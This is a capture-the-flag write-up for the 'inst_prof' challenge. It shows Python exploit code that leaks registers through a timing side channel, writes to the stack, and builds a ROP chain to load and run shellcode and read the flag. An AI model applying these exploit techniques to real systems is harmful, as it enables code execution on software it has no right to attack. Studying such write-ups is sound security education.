 # inst_prof

This challenge accepts 4 Bytes of Instructions and executes them in a tight loop, measuring the total runtime.
The Pseudocode looks as follows:

```C

void do_test()
{
    void *page = alloc_page()
    //Use the Template to prepare function
    read_inst(page); //Reads 4 Bytes from User
    make_page_executable(page)

    r12 = rdtsc;
    ((void (*)())page)();
    rdx = rdtsc - r12;

    write(1, rdx, 8);
    free_page(page);
}
```

The disassembly of the Page looks as follows:

```assembly
mv ecx, 0x1000
your_code:
<your 4 bytes>
sub ecx, 1
jne your_code
ret
```

## Leaking Stuff
First of all we noticed, that the registers r14 and r15 are not altered between two measurements.
This allows to preserve minimal state between two executions.
To leak registers, we stored the value to leak in r15 and extracted the value bit by bit.

```python
def leak_r15(lowest_bit=0, highest_bit=48):
    #skip not needed bits
    for n_bit in range(0, lowest_bit):
        execute("shr r15,1; ret")

    #leak
    leak = 0
    for n_bit in range(lowest_bit, highest_bit+1):
        #prepare bit mask
        execute("xor r14, r14")
        execute("inc r14; ret")
        execute("and r14, r15")

        #leak
        t = execute("sub r12, r14")
        bit = 0 if t < thres else 1
       leak |= bit * 2 ** ( n_bit)
        p2.status("%u/48 Leak: 0x%x Avg: %u", n_bit, leak, t)

        #shfit r15
        execute("shr r15,1; ret")

    return leak
```

As r12 holds the timestamp before the execution, the returned runtime can be artificialy increased depending on r14.


## Writing to Stack
To prepare the ropchain, we need to write arbitrary data to Stack.
The address we want to write to is stored in %r15
```python
def write_buff(what):
    for c in what:
        execute("movb [r15],0x%02x" % ord(c))
        execute("inc r15; ret")
```

## Exploit
The program already contains lots of nice gadgets, such as allocating page, read_n bytes and make_page executable.
We used this functions to allocate a new page, read arbitrary data to it
As the behavior for mmap is deterministic, we can compute the address from the newly allocated page, from the previous allocated one.
So first we have to leak the address of the old Page and of course the binary base address, to compute the rop gadgets:

```
execute("pop r15; push r15")
binary_base = leak_r15(lowest_bit=12,highest_bit=40) | 0x550000000000

execute("mov r15, rdi")
page_old = leak_r15(lowest_bit=12,highest_bit=48)

alloc_page = binary_base + 0x9f0
pop_rdi = binary_base + 0xbc3
read_n = binary_base + 0xa80
make_page_executable = binary_base + 0xa20
pop_rbx_r12_rbp = binary_base + 0xaab
call_rbx = binary_base + 0xb16


ropchain  = struct.pack("<Q", alloc_page)
ropchain += struct.pack("<Q", pop_rdi)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", read_n)
ropchain += struct.pack("<Q", pop_rdi)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", make_page_executable)
ropchain += struct.pack("<Q", pop_rbx_r12_rbp)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", call_rbx)
```

To write the ropchain without crashing the programm, we incremented rsp by 0x1000 and the chain before the main stack frame.

```python
execute("mov %r15, %rsp; ret")
execute("inc %r15")
write_buff(ropchain)
```

To execute the ropchain, 
```
execute("mov r15, rsp; ret")
execute("inc r15")
CODE = asm("mov rsp,r15; ret").ljust(4, asm("nop"))

con.send(CODE)
con.send(shellcode)
con.send("cat flag.txt\n")
